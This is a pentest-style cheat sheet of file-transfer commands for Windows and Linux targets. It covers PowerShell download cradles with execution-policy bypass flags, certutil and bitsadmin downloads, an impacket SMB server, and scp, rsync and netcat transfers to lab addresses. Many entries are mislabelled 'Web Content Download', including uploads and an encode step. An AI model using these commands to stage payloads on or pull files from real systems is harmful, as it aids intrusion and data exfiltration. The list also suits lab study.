 USING POWERSHELL -
------------------------------------------------------------------------------------------------------------------


#### 

**Web Content Download**
    
    $webClient.DownloadFile('http://10.10.10.10:80/demo.txt','c:\temp\demo.txt')

**Web Content Download**
    
    powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/demo.txt','c:\temp\demo.txt')

**Web Content Download**
    
    powershell.exe IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10:80/demo.txt','C:\temp\demo.txt')

**Web Content Download**
    
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10/demo.txt','C:\temp\demo.txt')"

**Web Content Download**
    
    powershell.exe Invoke-RestMethod -Uri "http://10.10.10.10/demo.txt" -OutFile "c:\temp\demo.txt"

**Web Content Download**
    
    powershell.exe Invoke-webRequest -Uri "http://10.10.10.10/demo.txt" -OutFile "c:\temp\demo.txt"

**Powershell Wget**
    
    powershell.exe -c wget "http://10.10.14.17/demo.txt" -outfile "c:\temp\demo.txt"

**Powershell Curl**
    
    powershell.exe -c "curl.exe http://10.10.10.10:80/demo.txt c:\temp\demo.txt"

**Powershell IEX**

    echo IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10:80/demo.txt','C:\temp\demo.txt') | powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile
   
**Powershell Direct URI**
    
    iwr -uri http://192.168.45.240/demo.txt -Outfile demo.txt

**Powershell BitsTransfer**

    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'c:\temp\demo.txt'"

**Using file**
    
    echo '$storageDir = $pwd' > wget.ps1
    echo '$webclient = New-Object System.Net.WebClient' >> wget.ps1
    echo '$url = "http://10.10.10.10/demo.txt"' >> wget.ps1
    echo '$file = "c:\temp\demo.txt"' >> wget.ps1
    echo '$webclient.DownloadFile($url, $file)' >> wget.ps1

    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile -File wget.ps1
------------------------------------------------------------------------------------------------------------------
USING CMD - 
------------------------------------------------------------------------------------------------------------------

**Web Content Download**
    
    powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.10.10/demo.txt','c:\temp\demo.txt')

**Web Content Download**

    powershell.exe -c "Import-Module BitsTransfer; Start-BitsTransfer -Source 'http://10.10.10.10/demo.txt' -Destination 'C:\temp\demo.txt'"

**Web Content Download**
    
    powershell.exe -c "$webClient = New-Object System.Net.WebClient; $webClient.DownloadFile('http://10.10.10.10:80/demo.txt','c:\temp\demo.txt')"

**Web Content Download**
    
    powershell.exe -ExecutionPolicy Bypass -NoLogo -NonInteractive -NoProfile "IEX(New-Object System.Net.WebClient).downloadFile('http://10.10.10.10/demo.txt','C:\temp\demo.txt')"

------------------------------------------------------------------------------------------------------------------
USING CERTUTIL - 
------------------------------------------------------------------------------------------------------------------

**Web Content Download**
    
    certutil.exe -urlcache -split -f "http://10.10.10.10/demo.txt" demo.txt

**Web Content Download**

    certutil.exe -encode c:1.txt out.b64 & more .\out.b64

------------------------------------------------------------------------------------------------------------------
USING SMB - 
------------------------------------------------------------------------------------------------------------------

**SMB SERVER -**

**Start normal SMB Server**
    
    impacket-smbserver share .

**If version error**
    
    impacket-smbserver -smb2support share .

**Use authenticated servers if file transfer is long**

    impacket-smbserver share -username user -password 123 . -smb2support


**SMB CLIENT -**

**Web Content Download**
    
    net use \\10.10.10.10 /u:"user" "123"

**Web Content Download**
    
    copy \\10.10.10.10\share\demo.txt c:\temp\demo.txt  
------------------------------------------------------------------------------------------------------------------
USING SSH - 
------------------------------------------------------------------------------------------------------------------

SCP-

**Web Content Download**
    
    scp /tmp/demo.txt user@10.10.10.10:/tmp/

**Web Content Download**

    scp demo.txt root@10.10.10.10:/root/

RSYNC-

**Web Content Download**
    
    rsync -av /tmp/centos/ root@192.168.1.120:/root/*

**Web Content Download**

    rsync -av -e 'ssh -i /home/user/id_rsa' root@10.10.10.10:/root/* /tmp/demo/

**Web Content Download**

    rsync -av --port 22 -e 'ssh -i /home/user/id_rsa' root@10.10.10.10:/root/* /tmp/demo/
------------------------------------------------------------------------------------------------------------------
USING WinRM - 
------------------------------------------------------------------------------------------------------------------

**Web Content Download**
    
    download demo.txt
------------------------------------------------------------------------------------------------------------------
USING BITSADMIN - 
------------------------------------------------------------------------------------------------------------------

**Web Content Download**
    
    bitsadmin /transfer n http://10.10.10.10/demo.txt C:\temp\demo.txt

**Web Content Download**
    
    bitsadmin /transfer evil /download /priority high http://10.10.10.10:80/demo.txt c:\temp\demo.txt

**Web Content Download**
    
    powershell.exe -c Import-Module bitstransfer;Start-BitsTransfer -Source "http://10.10.10.10/demo.txt" -Destination "C:\temp\demo.txt"
------------------------------------------------------------------------------------------------------------------
USING NC / NETCAT - 
------------------------------------------------------------------------------------------------------------------

**Web Content Download**
    
    nc.exe -nlvp 443 > demo.txt

**Web Content Download**
    
    nc -v 10.10.10.10 443 < demo.txt
------------------------------------------------------------------------------------------------------------------
